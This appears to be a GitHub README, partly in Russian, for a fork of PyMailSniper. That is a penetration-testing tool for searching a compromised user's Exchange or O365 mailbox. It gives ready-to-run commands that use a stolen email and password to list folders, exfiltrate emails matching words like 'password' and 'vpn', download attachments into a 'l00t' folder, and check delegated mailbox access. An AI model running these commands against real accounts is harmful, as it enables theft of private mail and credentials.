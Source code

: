 # Инфо

За основу взят проект от foofus-sph1nx - https://github.com/foofus-sph1nx/PyMailSniper

# Что и зачем

Во время пентестов, компрометируя пользователя, никогда не будет лишним изучить его почту. Но сделать это не всегда просто - трудности возникают при отсутствие GUI, пробрасывании портов и т.п. Этот форк призван облегчить жизнь максимально упростив исследование почтовых ящиков на основе MS Exchange.

Создается на основе Exchangelib - (https://github.com/ecederstrand/exchangelib)


# Documentation

1. Help Menu
   
   ``` python
   python3 pymailsniper.py -h

      _____       __  __       _ _  _____       _
     |  __ \     |  \/  |     (_) |/ ____|     (_)
     | |__) |   _| \  / | __ _ _| | (___  _ __  _ _ __   ___ _ __
     |  ___/ | | | |\/| |/ _` | | |\___ \| '_ \| | '_ \ / _ \ '__|
     | |   | |_| | |  | | (_| | | |____) | | | | | |_) |  __/ |
     |_|    \__, |_|  |_|\__,_|_|_|_____/|_| |_|_| .__/ \___|_|
             __/ |                               | |
            |___/                                |_|


   # PyMailSniper [http://www.foofus.net] (C) sph1nx Foofus Networks <sph1nx@foofus.net>
   # Fork By HydroSausager

   usage: python3 pymailsniper.py module [options]

   Python implementation of mailsniper

   optional arguments:
     -h, --help            show this help message and exit

   Modules:
     available modules

     {folders,attachment,delegation,emails}
       folders             List Mailbox Folders
       attachment          List/Download Attachments
       delegation          Find where compromised user has access
       emails              Search for Emails

   ```

2. List Folders (Eg. Inbox is in O365)
   ```
   usage: python3 pymailsniper.py module [options] folders [-h] [-s SERVER]
                                                        [-e EMAIL]
                                                        [-p PASSWORD] [-a]
                                                        [-c]

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -a, --absolute        Print folders absolute paths instead tree if arg is present
     -c, --count           Print count of child folders and email if present

   ```
   Вывести список папок в виде дерева - 
    ```python
    python3 pymailsniper.py folders -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок в виде дерева с указанием кол-ва дочерних папок и писем - 
    ```python
    python3 pymailsniper.py folders -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) - 
    ```python
    python3 pymailsniper.py folders -a -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) с указанием кол-ва дочерних папок и писем - 
    ```python
    python3 pymailsniper.py folders -a -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Exfiltrate emails

   ```python
    python3 pymailsniper.py emails -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -o emails.txt
   ```

4. List and/or Download attachments

   ```python
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -d l00t
   ```

5. Check if compromised account has delegated rights to any other inboxes

   ```python
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -g list-of-emails.txt
   ```

# Things to Do

* Add functionality for extracting AD usernames
* Add functionality to dump GAL
